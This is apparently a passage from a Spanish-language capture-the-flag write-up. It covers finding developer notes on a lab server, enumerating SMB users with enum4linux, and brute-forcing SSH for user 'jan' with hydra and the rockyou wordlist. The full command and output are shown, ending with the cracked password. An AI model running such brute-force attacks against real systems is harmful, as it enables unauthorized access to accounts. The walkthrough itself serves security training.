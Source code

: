 ```shell
Finished
===============================================================
```

He parado la búsqueda pronto, ya que veo que el directorio encontrado es el que parece que buscamos, por lo que se busca. Por lo que vamos a ver si hay algo de lo que buscamos en esa parte.

![[Pasted image 20250705101050.png]]

Efectivamente vemos que esta lo que buscamos, ahora vamos a ver lo que hay dentro de esas notas.

``` title=dev.txt txt
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

``` title=j.txt txt
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

En la primera nota no  se puede sacar mucha información en claro, pero en la segunda si vemos que hay información bastante interesante y nos da un posible vector de entrada sabiendo "J" tiene un usuario con una contraseña débil. Pero al no saber nada del usuario, y al haber agotado las oportunidades con el puerto 80, vamos a ver si podemos sacar algo de samba, haber si conseguimos la enumeración de usuarios que queremos, esto lo haremos mediante la herramienta "enum4linux".

![[Pasted image 20250705102140.png]]

Entre mucha información vemos que hay dos usuarios que coinciden con la letras, por lo que ahora sí, vamos a poder hacer fuerza bruta al usuario "jan" con la herramienta hydra al puerto ssh.
# Pentesting

```shell
root@ip-10-10-184-252:~# hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.93.23
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-05 10:26:22
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.93.23:22/
[STATUS] 135.00 tries/min, 135 tries in 00:01h, 14344269 to do in 1770:54h, 16 active
[STATUS] 114.00 tries/min, 342 tries in 00:03h, 14344062 to do in 2097:06h, 16 active
[STATUS] 106.00 tries/min, 742 tries in 00:07h, 14343662 to do in 2255:18h, 16 active
[22][ssh] host: 10.10.93.23   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 7 final worker threads did not complete until end.
[ERROR] 7 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
```